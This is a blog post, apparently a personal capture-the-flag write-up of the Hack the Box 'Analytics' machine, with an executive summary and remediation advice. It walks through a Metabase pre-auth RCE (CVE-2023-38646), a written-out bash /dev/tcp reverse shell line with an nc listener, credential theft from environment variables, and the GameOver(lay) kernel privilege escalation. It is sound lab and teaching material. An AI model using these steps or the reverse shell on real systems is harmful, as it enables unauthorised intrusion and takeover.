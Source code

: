 ```yaml
---
title: 'Analytics without Metasploit &#8211; Hack the Box #1'
date: '2024-03-06T17:27:24+00:00'
draft: false
permalink: /2024/03/06/analytics-without-metasploit-hack-the-box-1
author: William
excerpt: ''
type: post
id: 694
thumbnail: ../../../../uploads/2024/03/Analytics-e1710797452567.png
categories:
    - 'Penetration Testing'
tag: []
post_format: []
site-sidebar-layout:
    - default
ast-site-content-layout:
    - default
site-content-style:
    - default
site-sidebar-style:
    - default
theme-transparent-header-meta:
    - default
_yoast_wpseo_primary_category:
    - ''
_yoast_wpseo_content_score:
    - '30'
astra-migrate-meta-layouts:
    - set
---
```

This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benifit past that juicy dopamine hit when you get root 😀

#### Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

#### Technical Findings

Starting as per with a good old Nmap

![](https://i0.wp.com/i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![](https://i0.wp.com/i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1)

Lets dive into Metabase. There are default credentials available but those dont work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![](https://i0.wp.com/i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1)

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![](https://i0.wp.com/i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1)

The server returns an error message but we got the juicy juicy shell

![](https://i0.wp.com/i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![](https://i0.wp.com/i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![](https://i0.wp.com/i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1)

And it works! With our lovely user flag right there.

![](https://i0.wp.com/i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1)

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![](https://i0.wp.com/i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![](https://i0.wp.com/i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![](https://i0.wp.com/i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![](https://i0.wp.com/i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀